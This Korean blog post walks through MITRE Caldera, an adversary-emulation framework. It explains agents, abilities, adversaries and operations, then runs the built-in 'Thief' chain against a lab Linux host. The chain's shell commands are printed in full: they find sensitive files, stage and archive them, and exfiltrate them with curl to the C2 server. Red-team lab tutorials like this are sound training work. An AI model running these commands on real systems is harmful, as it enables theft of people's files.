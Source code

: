 ```yaml
---
title: Usage of Caldera
author: Jeongwon
date: 2025-02-21 16:04:00 +0900
categories: [Career, RedTeam]
tags: [writing]
render_with_liquid: false
---
```

## Caldera

###### `REF` : [DOCS](https://caldera.readthedocs.io/en/latest/) | [YOUTUBE](https://www.youtube.com/playlist?list=PLF2bj1pw7-ZvLTjIwSaTXNLN2D2yx-wXH) | [BLOG](https://medium.com/@mitrecaldera/welcome-to-the-official-mitre-caldera-blog-page-f34c2cdfef09) | [WEB](https://caldera.mitre.org/)

---
## Overview

### Campaigns/Agents
Victim host를 생성하고 관리합니다.

### Campaigns/Abilities
Caldera Server가 Victim host에게 수행할 수 있는 공격 전술입니다.

### Campaigns/Adversaries
`Abilities`의 공격 전술을 Chaining할 수 있습니다.

### Campaigns/Operation
`Adversaries`의 Attack Chain을 Victim host에게 실행합니다.

---
## Attack Test

![image](assets/img/usage-of-caldera/agent_create.png)
- `Campaigns/Agents`에서 Victim host를 생성합니다.
    - 저는 Sandcat을 사용하였고, Linux 환경의 Victim host를 택하였습니다.
    - `app.contact.http`의 IP 자리에 Caldera server의 IP를 넣어줍니다.
    - 입력을 마친 후 하단 명령어를 Victim host의 Terminal에서 실행해줍니다.

![image](assets/img/usage-of-caldera/operation_exec.png)
- `Campaigns/Operation`에서 실행할 Attack Chain을 `Campaigns/Adversaries`에서 선택합니다.
    - 예시로 생성되어있던 `Thief`를 실행해 보았습니다.

![image](assets/img/usage-of-caldera/adversaries_thief.png)
- `Campaigns/Adversaries`의 `Thief` Attack Chain입니다.

```bash
# T1074.001 : Data Staged: Local Data Staging
mkdir -p staged && echo $PWD/staged

# T1005 : Data from Local System
# plugins.stockpile.app.parsers.basic
find / -name '*.#{file.sensitive.extension}' -type f -not -path '*/\.*' -size -500k 2>/dev/null | head -5

# T1074.001 : Data Staged: Local Data Staging
# plugins.stockpile.app.requirements.paw_provenance
cp #{host.file.path[filters(technique=T1005,max=3)]} #{host.dir.staged[filters(max=1)]}

# T1560.001 : Archive Collected Data: Archive via Utility
# plugins.stockpile.app.requirements.paw_provenance
tar -P -zcf #{host.dir.staged}.tar.gz #{host.dir.staged} && echo #{host.dir.staged}.tar.gz

# T1041 : Exfiltration Over C2 Channel
# plugins.stockpile.app.requirements.paw_provenance
curl -F "data=@#{host.dir.compress}" --header "X-Request-ID: `hostname`-#{paw}" #{server}/file/upload
```
- 위와 같은 Chain이 Victim host를 대상으로 실행됩니다.


 




